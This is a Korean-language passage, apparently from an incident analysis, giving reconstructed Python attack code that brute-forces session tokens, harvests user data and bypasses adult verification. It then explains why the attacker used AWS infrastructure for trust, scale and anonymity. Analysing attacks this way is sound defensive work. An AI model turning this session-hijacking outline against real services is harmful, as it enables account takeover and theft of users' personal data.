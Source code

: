 #### 공격 코드 추정

```python
import asyncio
import aiohttp
import itertools

class SessionHijacker:
    def __init__(self):
        self.valid_sessions = []
        self.user_data = []
    
    async def brute_force_sessions(self):
        """세션 토큰 브루트포스 공격"""
        session_patterns = [
            'sess_' + ''.join(combo) 
            for combo in itertools.product('0123456789abcdef', repeat=8)
        ]
        
        for session_id in session_patterns:
            response = await self.test_session(session_id)
            if response.status == 200:
                self.valid_sessions.append(session_id)
    
    async def harvest_user_data(self):
        """유효한 세션으로 사용자 정보 수집"""
        for session in self.valid_sessions:
            user_info = await self.get_user_info(session)
            self.user_data.append(user_info)
    
    async def bypass_adult_verification(self):
        """성인 인증 우회"""
        for session in self.valid_sessions:
            await self.toggle_adult_flag(session, True)
```

### 4. AWS 인프라 악용의 고도화

#### 왜 AWS IP를 사용했는가?

1. **신뢰성 악용**:
   - AWS IP는 일반적으로 신뢰받는 IP 대역
   - 대부분의 보안 솔루션에서 화이트리스트 처리
   - 차단 우선순위가 낮음

2. **확장성**:
   - EC2 인스턴스를 통한 대규모 분산 공격
   - Auto Scaling으로 공격 규모 동적 조절
   - 여러 리전 활용 가능

3. **익명성**:
   - 실제 공격자 신원 추적 어려움
   - AWS 계정 정보는 법적 절차 필요
   - VPN/프록시 없이도 익명성 확보
